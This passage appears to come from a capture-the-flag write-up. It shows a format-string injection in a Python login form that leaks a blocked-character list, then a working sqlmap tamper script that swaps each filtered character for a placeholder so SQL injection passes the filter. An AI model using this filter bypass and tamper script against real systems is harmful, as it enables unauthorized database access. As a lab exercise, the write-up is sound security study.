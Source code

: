 ```
format_map (before for loop): {'password': <function QueryBuilder.build_query.<locals>.<lambda> at 0x7f3cd49438b0>}

format_map (after for loop): {'password': 'value'}
```
> This output is behind the scenes of what happened. I used print statements to get these.

You can see that `{x}` becomes an instance of the `DirtyString` object at some point, meaning we can access previously inaccessible characters via `{x}{x.MALICIOUS_CHARS}`.

----


For example, when I send in this POST request:
```
username:user{x}{x.MALICIOUS_CHARS}
password:value
```

I get this in the HTTP response:
```
Database query failed: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\\', '/', '*', '+%', '-', ';', '#', '(', ')', ' ', ',']' AND password = 'value'' at line 1
```
> This is the user-visible output that the server returns due to SQL errors.

----

#### Solution

Now that we can use restricted values, I created a custom tamper script in `sqlmap` that will basically bypass the filters via the `MALICIOUS_CHARS` array index.

`custom_tamper.py` file
```python
#!/usr/bin/env python
def tamper(payload, **kwargs):
    """
    Replaces each character defined in `mapping` with the corresponding 
    "{apple.MALICIOUS_CHARS[index]}" placeholder in the given payload.
    """

    mapping = {
        '"': '{a.MALICIOUS_CHARS[0]}',
        "'": '{a.MALICIOUS_CHARS[1]}',
        '\\': '{a.MALICIOUS_CHARS[2]}',
        '/': '{a.MALICIOUS_CHARS[3]}',
        '*': '{a.MALICIOUS_CHARS[4]}',
        '+%': '{a.MALICIOUS_CHARS[5]}',  # '+%'
        '-': '{a.MALICIOUS_CHARS[6]}',
        ';': '{a.MALICIOUS_CHARS[7]}',
        '#': '{a.MALICIOUS_CHARS[8]}',
        '(': '{a.MALICIOUS_CHARS[9]}',
        ')': '{a.MALICIOUS_CHARS[10]}',
        ' ': '{a.MALICIOUS_CHARS[11]}',
        ',': '{a.MALICIOUS_CHARS[12]}'
    }

    # Perform replacements in the payload
    if payload:
        for original_char, placeholder in mapping.items():
            payload = payload.replace(original_char, placeholder)
        payload += "{a}"

    return payload
```